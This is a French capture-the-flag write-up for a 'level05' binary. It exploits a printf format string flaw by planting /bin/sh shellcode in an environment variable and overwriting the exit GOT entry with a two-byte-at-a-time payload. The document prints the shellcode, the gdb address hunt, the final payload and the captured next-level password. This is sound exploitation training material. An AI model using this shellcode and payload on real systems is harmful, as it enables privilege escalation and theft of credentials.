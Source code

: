 # LEVEL 05

On trouve un binaire level05 à la racine du répo, contenant une fonction **main**.

En traduisant le code (**source.c**), le programme commence avec un **fgets** qui lit sur stdin.  Par la suite, un **tolower** est appliqué sur la string reçu.
La string est alors affiché par un **printf** avant que le programme appele un **exit**.

**Printf** ne prennant pas d'argument, on va pouvoir exploiter sont fonctionnement avec un **SHELLCODE**.

On commence par ajouter notre **SHELLCODE** aux variables d'environnements :

```bash
> export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"'`
```

Avec gdb, nous allons cherché l'addresse de notre **SHELLCODE**, on va ensuite récupérer une adresse qui pointe au milieu de notre **nop slide**.
On en profite pour récupérer l'adresse dans la **GOT** qui jump vers la fonction **exit** :

```gdb
gdb -q level05
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048444
(gdb) run
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048444 in main ()
(gdb) x/200xs environ
...
0xffffd867:      "SHELLCODE=\220\220\220\220\220....
...
(gdb) x/200sx 0xffffd867
0xffffd867:     0x4c454853      0x444f434c      0x90903d45      0x90909090
0xffffd877:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd887:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd897:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8a7:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8b7:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8c7:     0x90909090      0x90909090      0x90909090      0xc0319090
....

(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
(gdb) x 0x80497e2
0x80497e2 <exit@got.plt+2>:     0x83860804

```

> addresse dans la nop slide : 0xffffd887
> addresse du exit :  0x80497e0
> addresse du exit + 2 :  0x80497e2

Maintenant on va chercher l'offset de notre printf :

```bash
> (python -c "print 'B' * 4 + '|%08x ' * 15") | ./level05
bbbb|00000064 |f7fcfac0 |f7ec3af9 |ffffd6df |ffffd6de |00000000 |ffffffff |ffffd764 |f7fdb000 |62626262 |3830257c |257c2078 |20783830 |3830257c |257c2078
```

Notre offset apparait au niveau de nos `b` (62 en valeur hexadecimale), au 10 ème octet dans notre **stack**. On sait donc que notre première argument lu par **printf** sera à cette addresse.
On va chercher à ecrire la valeur décimale de notre nop slide au niveau de l'addresse du exit. Pour ça, on va employer la méthode du **format string attack**, **2 bytes by 2 bytes**, Donc écrire les 2 premiers bytes de l'addresse de notre  **nop slide** puis les deux suivants car il serait trop lent d'insérer  la totalité en une fois, cela nous ferais une taille de champ trop grande (+ de 4 milliard !).

```bash
(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55423c' + '%10\$hn'+ '%10104c' + '%11\$hn'"; cat) | ./level05
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

###### VICTORY